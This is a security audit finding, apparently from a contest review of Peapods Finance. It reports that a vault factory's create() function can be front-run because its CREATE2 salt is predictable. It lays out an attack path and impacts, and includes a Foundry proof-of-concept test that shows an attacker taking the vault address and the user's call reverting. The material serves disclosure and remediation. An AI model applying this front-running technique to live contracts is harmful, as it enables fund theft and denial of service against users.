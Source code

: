 Hidden Fossilized Dragonfly

High

# create() is vulnerable to front running

### Summary

The create function allows users to create vaults with specific parameters
```solidity
function create(string memory _name, string memory _symbol, address _asset, uint96 _salt)
        external
        returns (address _vault)
    {
```
These values are visible on the mempool and could be front-run by malicious actors.

### Root Cause

https://github.com/sherlock-audit/2025-01-peapods-finance/blob/main/contracts/contracts/LendingAssetVaultFactory.sol#L20

The vulnerability arises due to the predictable nature of the salt parameter `_salt` used in the CREATE2 address computation. Since `_salt` is directly supplied by the caller and the function does not rely or use any dynamic, unpredictable factors (e.g., `block.timestamp`, or `msg.sender` an attacker can front run transactions to `create()` with exact parameters and higher gas fees ultimately now in control of the vault.

```solidity
function _getFullSalt(uint96 _salt) internal view returns (uint256) {
        return uint256(uint160(address(this))) + _salt;
    }
```


### Attack Path

1. Alice wants to deploy a vault using parameters `Doge` `dog` `0xAddressOfDogeToken` `234678889`
2. Attacker sees Alice's transaction on the mempool
3. Attacker sends a transaction with the exact same parameters (`Doge` `dog` `0xAddressOfDogeToken` `234678889`)
4. Attacker now owns vault address

### Impact

Front running transactions to `create` can lead to various security risks 

- `Funds Loss` – If users expect a vault at a known address, the attacker could deploy a malicious vault with `selfdestruct` functionality , call  `selfdestruct()` replace deployed vault with malicious code which can be used to drain user funds.
- `Stealing Alice’s Vault Name & Symbol` – The attacker can deploy a vault with the same branding(name and symbol), misleading users.
-  `DOS: Locking Out Legitimate Users` – If Alice intended to launch a vault at a specific CREATE2 address, she is now locked out of that address.


### PoC

```solidity
   function testcreateFrontRunning() public {
        address attacker = address(0x2);
        string memory VAULT_NAME = "Doge Vault";   //Alice wants to create Doge Vault.
        string memory VAULT_SYMBOL = "DOGE";
        uint96 SALT = 6;

        asset.transfer(attacker, 10000 * 10 ** 18);
        
        address expectedVault = factory.getNewCaFromParams(VAULT_NAME, VAULT_SYMBOL, address(asset), SALT);

        // Attacker front-runs the deployment
        vm.startPrank(attacker);
        asset.approve(address(factory), 1000);
        address attackerVault = factory.create(VAULT_NAME, VAULT_SYMBOL, address(asset), SALT);
        vm.stopPrank();

        vm.startPrank(user);
        vm.expectRevert();  //user can no longer create vault due to collision error.
        factory.create(VAULT_NAME, VAULT_SYMBOL, address(asset), SALT);
        vm.stopPrank();
        assert(attackerVault == expectedVault );
        
    }
```

### Mitigation

Update `_getFullSalt()` to use a dynamic factors during computation of `_salt` such as `block.timestamp` or `msg.sender`